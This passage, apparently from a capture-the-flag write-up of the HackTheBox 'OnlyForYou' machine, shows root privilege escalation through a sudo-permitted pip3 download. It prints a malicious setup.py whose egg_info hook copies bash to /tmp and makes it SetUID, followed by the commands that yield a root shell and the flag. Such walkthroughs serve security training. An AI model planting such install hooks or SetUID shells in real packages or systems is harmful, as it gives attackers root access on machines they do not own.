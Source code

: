 
Now only that, but the code executed:

    
    
    john@only4you:~$ ls -l /tmp/0xdf 
    -rw-r--r-- 1 root root 0 Apr 25 17:54 /tmp/0xdf
    

`/tmp/0xdf` is there and owned by root.

#### Shell

To get a shell, I’ll update my `setup.py`:

    
    
    from setuptools import setup
    from setuptools.command.egg_info import egg_info
    import os
    
    
    class RunEggInfoCommand(egg_info):
        def run(self):
            os.system("cp /bin/bash /tmp/0xdf")
            os.system("chmod 4777 /tmp/0xdf")
            egg_info.run(self)
    
    setup(
        name = "own_this_is_for_you",
        version = "0.0.1",
        license = "MIT",
        packages=[],
        cmdclass={
            'egg_info': RunEggInfoCommand
        },
    )
    

Now instead of `touch` a file, it copies `bash` and sets it as SetUID. I’ll do
the same steps, `python -m build`, upload, set the repo public (there’s a cron
constantly resetting that), and run the command as john:

    
    
    john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
    Collecting http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
      Downloading http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz (821 bytes)
      Saved ./own_this_is_for_you-0.0.1.tar.gz
    Successfully downloaded own-this-is-for-you
    

Now `/tmp/0xdf` is `bash`, which I can run with `-p` to keep root:

    
    
    john@only4you:~$ /tmp/0xdf -p
    0xdf-5.0# 
    

And read the root flag:

    
    
    0xdf-5.0# cat root.txt
    c9b85bc4************************
    

[](/2023/08/26/htb-onlyforyou.html)

